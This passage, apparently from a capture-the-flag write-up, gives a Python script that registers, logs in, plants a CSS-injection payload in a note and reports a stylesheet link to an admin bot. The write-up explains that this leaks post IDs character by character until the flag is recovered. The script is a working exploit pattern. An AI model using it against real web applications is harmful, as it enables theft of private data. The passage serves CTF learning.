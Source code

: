```python

session = requests.Session()

def register():
    user = {
        'email': username,
        'password': password
    }
    r = session.post(URL + 'api/auth/register', data=user)

def login():
    user = {
        'email': username,
        'password': password
    }
    r = session.post(URL + 'api/auth/login', data=user)

nid = ""

def create_note():
    note = {
        'title': 'aaaaa{color',
        'content': 'blue;}' + payload
    }
    r = session.post(URL + 'api/notes', data=note, cookies={'token': session.cookies['token']})
    j = json.loads(r.text)
    global nid
    nid = j['id']

def report():
    n = {
        'noteId': f'<link rel="stylesheet" href="static/api/notes/{nid}">'
    }
    r = session.post(URL + 'report', data=n)
    print(r.text)
    
register()
login()
create_note()
report()
```

when we run, the bot go to the link that contains CSS injection and it leaks first chars of 2 posts ID

![image](https://hackmd.io/_uploads/SJ-Qwlkhee.png)

Now change `id` to 2 and continue to run script we will have next char. Use the same strategy we will have flag in remote: 

![image](https://hackmd.io/_uploads/r1xSPgknxl.png)
